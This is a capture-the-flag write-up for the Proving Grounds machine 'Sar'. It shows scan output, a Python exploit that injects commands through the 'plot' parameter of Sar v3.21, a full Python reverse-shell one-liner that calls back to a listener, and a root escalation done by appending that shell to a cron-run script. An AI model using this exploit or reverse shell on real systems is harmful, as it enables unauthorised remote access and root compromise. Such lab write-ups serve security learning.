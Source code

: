 ```yaml
---
title: "Proving grounds Play: Sar"
layout: post
date: 2023-07-23 12:00
categories: writeup
---
```


Proving grounds Play - Sar CTF writeup.

## NMAP
```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3340be13cf517dd6a59c64c813e5f29f (RSA)
|   256 8a4eab0bdee3694050989858328f719e (ECDSA)
|_  256 e62f551cdbd0bb469280dd5f8ea30a41 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Fuzzing for Directories and Files

```sh
000000069:   200        375 L    964 W      10918 Ch    "index.html"                           
000000157:   403        9 L      28 W       279 Ch      ".htaccess"                            
000000248:   200        1 L      1 W        9 Ch        "robots.txt"                           
000000279:   200        1172 L   5873 W     95674 Ch    "phpinfo.php"
```

**Sar v3.21**

![img](/assets/images/CTF/Proving_Grounds/Sar/sar.png)

## Searchsploit

![img](/assets/images/CTF/Proving_Grounds/Sar/searchsploit.png)

## Remote Code Execution

As per the exploit code the param `plot` is vulnerable to remote code execution.

```py
def exploiter(cmd):
    global url
    sess = requests.session()
    output = sess.get(f"{url}/index.php?plot=;{cmd}")       #vulnerable
    try:
        out = re.findall("<option value=(.*?)>", output.text)
    except:
        print ("Error!!")
    for ouut in out:
        if "There is no defined host..." not in ouut:
            if "null selected" not in ouut:
                if "selected" not in ouut:
                    print (ouut)
    print ()
```

**Python Reverse Shell**

```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.151",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

## Reverse Shell Obtained

![img](/assets/images/CTF/Proving_Grounds/Sar/local.png)

## Privilege Escalation

Crontab running a cron job every 5 minutes.

![img](/assets/images/CTF/Proving_Grounds/Sar/cron.png)

Listing permissions for the script file.

![img](/assets/images/CTF/Proving_Grounds/Sar/cron_file.png)

### Script contents

**Finally.sh**

```sh
#!/bin/sh

./write.sh
```

**write.sh**

```sh
#!/bin/sh

touch /tmp/gateway
```

Added python revershell to the `write.sh` file, so when the cronjob runs the write.sh file it will runs as `root`.

![img](/assets/images/CTF/Proving_Grounds/Sar/write_sh.png)

## Root Obtained

![img](/assets/images/CTF/Proving_Grounds/Sar/root.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).